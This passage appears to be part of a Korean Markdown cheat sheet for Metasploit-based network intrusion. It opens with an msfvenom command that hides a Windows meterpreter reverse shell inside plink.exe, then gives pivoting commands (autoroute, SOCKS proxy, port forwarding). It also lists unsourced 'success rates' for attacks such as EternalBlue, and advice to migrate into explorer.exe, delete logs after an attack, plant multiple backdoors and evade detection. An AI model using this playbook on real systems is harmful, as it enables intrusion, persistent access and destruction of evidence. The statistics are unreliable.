 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.50 LPORT=4444 -x /usr/share/windows-binaries/plink.exe -f exe
```

## 🌐 네트워크 침투 패턴

### 표준 침투 절차

```
1. 외부 스캔 → 2. 초기 침투 → 3. 권한 상승 → 4. 정찰 → 5. 측면 이동 → 6. 목표 달성
```

### 피벗팅 설정 (내부 네트워크 침투)

```bash
# 라우팅 추가
run autoroute -s 192.168.100.0/24

# SOCKS 프록시
use auxiliary/server/socks_proxy
set SRVPORT 1080
run -j

# 포트 포워딩
portfwd add -l 3390 -p 3389 -r 192.168.100.10
```

## 📊 성공률 통계 (실무 기준)

| 공격 벡터        | 성공률 | 주요 타겟           |
| ---------------- | ------ | ------------------- |
| EternalBlue      | 95%    | Windows 7/2008/2012 |
| SSH 브루트포스   | 70%    | Linux 서버          |
| 웹 디렉토리 스캔 | 85%    | 웹 애플리케이션     |
| Office 매크로    | 60%    | 클라이언트 PC       |
| 기본 크리덴셜    | 40%    | IoT/네트워크 장비   |

## ⚠️ 실무 주의사항

### 필수 체크 포인트

- **세션 안정화**: 반드시 explorer.exe로 마이그레이션
- **백업 통신**: 여러 포트/프로토콜로 리스너 설정
- **로그 관리**: 공격 후 반드시 로그 삭제
- **지속성**: 여러 방법으로 백도어 설치
- **탐지 회피**: 실행 간격 조절 및 메모리 실행
